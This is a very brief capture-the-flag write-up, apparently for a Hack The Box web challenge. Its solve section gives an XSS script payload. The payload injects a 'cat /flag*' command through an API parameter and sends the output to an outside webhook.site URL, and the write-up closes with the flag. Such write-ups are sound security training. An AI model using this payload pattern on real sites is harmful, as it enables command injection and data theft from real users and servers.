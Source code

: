 # Source:

# Solve

Payload:
```html
<script>fetch('/api/stats?command=cat%20/flag*')
.then(data=>data.text())
.then(data=>fetch(`https://webhook.site/2d801f2b-8074-4cf5-bea6-b7d949f70598?a=${data}`));</script>
```

`Flag: HTB{th3_tr34t_m1s5i0n}`